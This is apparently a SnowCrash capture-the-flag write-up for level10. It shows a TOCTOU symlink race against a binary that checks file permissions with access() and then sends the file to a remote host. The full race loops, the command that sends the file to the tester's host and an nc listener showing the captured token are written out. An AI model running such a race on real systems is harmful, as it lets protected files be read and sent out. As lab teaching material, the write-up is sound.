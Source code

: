 The `level10` executable sends a file to a server on port 6969, but only if the user executing it have permissions to open the file, as you can see with the `nm` command:

``` shell
level10@SnowCrash:~$ nm level10 

    ...

08048620 T _start
         U access@@GLIBC_2.0
0804a064 b completed.6159

    ...
    
```

It uses `access` system call probably to check the permisions before send it up. I you refer the `access` man page you can see the following warning:

``` 
       Warning: Using these calls to check if a user is authorized to,
       for example, open a file before actually doing so using open(2)
       creates a security hole, because the user might exploit the short
       time interval between checking and opening the file to manipulate
       it.  For this reason, the use of this system call should be
       avoided.  (In the example just described, a safer alternative
       would be to temporarily switch the process's effective user ID to
       the real ID and then call open(2).)
```

We can use this exploit:

 - First: In one shell instance we can create a infinite loop that will create a file in `/tmp` so we have access to it, and substitute it with a symbolic link to our token file over and over again:

``` shell
while true; do 
    rm -f /tmp/dummy;
    ln -s /home/user/level10/token /tmp/dummy;
    rm -f /tmp/dummy;
    echo "dummy" > /tmp/dummy;
done
```

-Second: In another shell instance just create an infinite loop of the `level10` executable calling this file to our host (192.168.1.18` in our case):

``` shell
while true; do
    ./level10 /tmp/dummy 192.168.1.18;
done
```

-Third: Lastly in our host machine put a server listening and discard all the "dummy" content:

``` shell
➜  Resources git:(master) ✗ nc -lk -p 6969 | grep -v 'dummy\|.*( )*.'
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
```

And here you have the token.
